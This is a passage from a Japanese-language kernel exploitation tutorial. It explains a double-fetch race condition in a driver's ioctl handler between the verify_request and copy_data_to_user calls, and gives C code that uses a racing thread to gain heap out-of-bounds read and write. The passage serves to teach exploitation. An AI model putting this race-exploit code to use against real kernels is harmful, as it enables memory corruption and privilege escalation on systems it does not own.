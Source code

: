 ```c
      break;
    }
  }
  pthread_join(th, NULL);

  for (int i = 0; i < 0x100; i += 8) {
    printf("%02x: 0x%016lx\n", i, *(unsigned long*)&buf[i]);
  }

  close(fd);
  return 0;
}
```
メインスレッドで`CMD_GET`を正しいサイズで呼び、サブスレッドでユーザー空間にあるサイズ情報を不正な値に書き換えます。`verify_request`が呼ばれてから`copy_data_to_user`が呼ばれるまでの間にサブスレッドがサイズ情報を書き換えると、不正なサイズでデータがコピーされるため、Heap Buffer Overflowが起きます。

`CMD_GET`に関しては実際にバッファサイズを超えてデータが読めたかを確認すれば良いですが、`CMD_SET`でバッファオーバーフローが成功したかはどのように確認すれば良いでしょうか。方法はいくつかあると思いますが、今回は定数回のループで範囲外書き込み（オーバーフロー）を試み、終了後にオーバーフローが成功したかを範囲外読み込みで確認することにしました。
```c
void overread(char *buf, size_t len) {
  char *zero = (char*)malloc(len);
  pthread_t th;
  pthread_create(&th, NULL, race, (void*)len);

  memset(buf, 0, len);
  memset(zero, 0, len);
  while (!race_win) {
    get(buf, 0x20);
    if (memcmp(buf, zero, len) != 0) {
      race_win = 1;
      break;
    }
  }

  pthread_join(th, NULL);
  race_win = 0;
  free(zero);
}

void overwrite(char *buf, size_t len) {
  pthread_t th;
  char *tmp = (char*)malloc(len);

  while (1) {
    // 定数回でraceを試みる
    pthread_create(&th, NULL, race, (void*)len);
    for (int i = 0; i < 0x10000; i++) set(buf, 0x20);
    race_win = 1;
    pthread_join(th, NULL);
    race_win = 0;
    // ヒープオーバーフローが成功していなければ再試行
    overread(tmp, len);
    if (memcmp(tmp, buf, len) == 0) break;
  }

  free(tmp);
}
```
これでヒープオーバーフローを試みたところ、著者の環境では偶然後ろに壊してはいけないデータがあったようで、次のようにカーネルパニックを起こしました。


[^1]: シングルコアで競合を起こす方法も後の章で登場します。